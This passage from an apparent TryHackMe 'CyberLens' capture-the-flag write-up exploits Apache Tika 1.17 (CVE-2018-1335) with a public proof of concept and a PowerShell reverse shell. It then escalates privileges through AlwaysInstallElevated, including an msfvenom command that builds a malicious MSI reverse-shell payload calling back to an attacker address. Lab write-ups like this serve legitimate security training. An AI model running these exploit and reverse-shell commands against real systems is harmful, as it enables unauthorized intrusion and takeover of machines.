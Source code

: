 Researching "Apache Tika 1.17 rce" leads us to [this](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/) Rhino Security Labs article featuring CVE-2018-1335. A PoC is also available [here](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2018-1335/CVE-2018-1335.py). To use it  we have to follow this example:

```
python3 CVE-2018-1335.py <host> <port> <command>
```

Since we are targeting a Windows machine we can make use of PowerShell to get a reverse shell.

> On [revshells.com](https://www.revshells.com/), we use a PowerShell #3 (base64) reverse shell

```
python3 CVE-2018-1335.py <Target_IP> <PORT_NUMBER> <INSERT REVSHELL HERE>
```
After running the exploit we get a connection on our listener, we have a shell as the user `cyberlens`.

![Apache Tika Server](/images/THM-CyberLens/initial-foothold.png)

We find the user flag on the user's Desktop.

![user.txt location](/images/THM-CyberLens/user-flag.png)

### Privilege Escalation

For the system enumeration we use [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) and find that `AlwaysInstallElevated` is enabled.

![Winpeas finds AlwaysInstallElevated is enabled](/images/THM-CyberLens/AlwaysInstallElevated.png)

The `AlwaysInstallElevated` setting in Windows is a Group Policy setting that, when enabled, allows Windows Installer to install programs with elevated privileges (i.e., administrative rights) regardless of the user's current privilege level. This setting is controlled through two registry keys:

1. **HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated**
2. **HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated**

If both of these registry keys are set to `1`, it means that any user, including those with only standard user privileges, can install MSI packages with elevated (administrator) privileges. *You can read more about it [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated).*

[This](https://juggernaut-sec.com/alwaysinstallelevated/#Abusing_AlwaysInstallElevated_to_Obtain_a_SYSTEM_Shell) article explains how to abuse `AlwaysInstallElevated` to obtain a SYSTEM Shell.

1. We craft a malicious msi file

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.104.130 LPORT=1234 -a x64 --platform Windows -f msi -o evil.msi
```

![Malicious msi ile created with msfvenom](/images/THM-CyberLens/malicious-msi.png)

2. Send it to the target 
